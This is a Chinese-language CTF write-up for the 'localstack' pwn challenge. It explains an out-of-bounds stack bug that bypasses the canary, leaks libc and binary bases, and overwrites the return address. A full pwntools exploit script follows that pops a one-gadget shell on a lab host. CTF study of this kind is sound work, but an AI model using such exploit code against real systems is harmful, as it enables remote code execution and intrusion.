

# pwn - localstack Writeup

---  


## FLAG：
`忘記存了`

## 觀察：
- 執行檔案：一個stack的實作
- checksec：保護全開

## 思路：
- 明顯的out-of-bound read & write，將return address寫入任意數值即可RCE。
- 有canary，因此想只靠push來複寫return address的話會stack smash。
- 發現一開始直接pop兩次便可改寫top的數值，以此來跳過canary，直接複寫return address。

## 步驟：
1. (題目其實有個print_flag的function直接跳過去執行即可，但當初忘記了，直接走one-gadget)
2. pop stack，leak libc與executable base，複寫top，複寫return address，執行one-gadget。

## Exploit：  

```python
from pwn import *
exe = context.binary = ELF("./localstack", checksec=False)
r = process(exe.path)
r = remote('172.31.1.2', 11100)
r.sendlineafter(b'>> ', b'pop')
r.sendlineafter(b'>> ', b'pop')
r.sendlineafter(b'>> ', b'show')
exe_addr = int(r.recvline().split()[-1].decode()) - 0x149f
r.sendlineafter(b'>> ', b'push 0')
r.sendlineafter(b'>> ', b'push 31')
r.sendlineafter(b'>> ', b'pop')
libc_addr = int(r.recvline().split()[1].decode()) - 0x2a1ca
  
bss = exe_addr + 0x4100
one_gadget = libc_addr + 0xef52b
print(f"{hex(libc_addr) =  }")
print(f"{hex(bss) =        }")
print(f"{hex(one_gadget) = }")
r.sendlineafter(b'>> ', b'pop')
r.sendlineafter(b'>> ', b'push ' + str(bss).encode())
r.sendlineafter(b'>> ', b'push ' + str(one_gadget).encode())
r.sendlineafter(b'>> ', b'exit')
r.interactive()
```

